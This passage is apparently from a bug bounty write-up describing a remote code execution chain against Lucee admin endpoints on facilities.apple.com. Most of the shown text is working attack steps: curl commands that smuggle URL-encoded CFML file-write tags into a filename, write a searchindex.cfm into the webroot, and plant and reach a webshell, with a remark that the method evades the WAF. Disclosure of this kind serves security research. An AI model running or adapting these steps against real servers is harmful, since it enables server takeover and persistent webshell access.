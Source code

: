 ```cfm
<cffile action="write" file="#datadir#searchindex.cfm" charset="utf-8" output="#serialize(searchresults)#" mode="644" />
```

## Remote Code Execution on facilities.apple.com

If you haven't figured out already, At this point we have a sweet RCE on https://facilities.apple.com by chaining `imgProces.cfm` and `admin.search.index.cfm`

We have control over directory where we can copy files to (**dataDir** parameter) and **luceeArchiveZipPath** parameter in which we can specify directory where to query files from.

Now If we could create a file named `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` which is of format \*.\*.cfm with content `"#stText.x.f#"` anywhere on the server and pass its path via  **luceeArchiveZipPath**, Since this key `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` would not exist, it will create this very key and it is written into the file **searchindex.cfm** and now that it has our controlled CFML tags (think it similar to PHP Tags) and it is being written to our controlled path passed via **dataDir**, we can pass webroot path thus giving us server side code execution!

We would utilize `imgProcess.cfm` to create a file `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` on the target's filesystem with contents that matches the RegExp `[''"##]stText\..+?[''"##]`. 

This attempt won't trigger WAF because we're not doing path traversal here.

### Steps to get shell

- Create file  `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with content `"#stText.x.f#"` (to match regex), We'll URL encode filename because backend tomcat won't like certain characters.

`curl -X POST 'https://facilities.apple.com/lucee/admin/imgProcess.cfm?file=%2F%73%65%72%76%65%72%2e%3c%63%66%66%69%6c%65%20%61%63%74%69%6f%6e%3d%77%72%69%74%65%20%66%69%6c%65%3d%23%55%72%6c%5b%27%66%27%5d%23%20%6f%75%74%70%75%74%3d%23%55%72%6c%5b%27%63%6f%6e%74%65%6e%74%27%5d%23%3e%2e%63%66%6d'  --data 'imgSrc="#stText.Buttons.save#"'`

- Get code execution 

`curl 'http://facilities.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/context/rootxharsh/&LUCEEARCHIVEZIPPATH=/full/path/lucee/temp/admin-ext-thumbnails/__/'`

- Write Shell 

`curl https://facilities.apple.com/lucee/rootxharsh/searchindex.cfm?f=PoC.cfm&content=cfm_shell`

- Access webshell - https://facilities.apple.com/lucee/rootxharsh/PoC.cfm

![PoC](screenshots/poc.png)

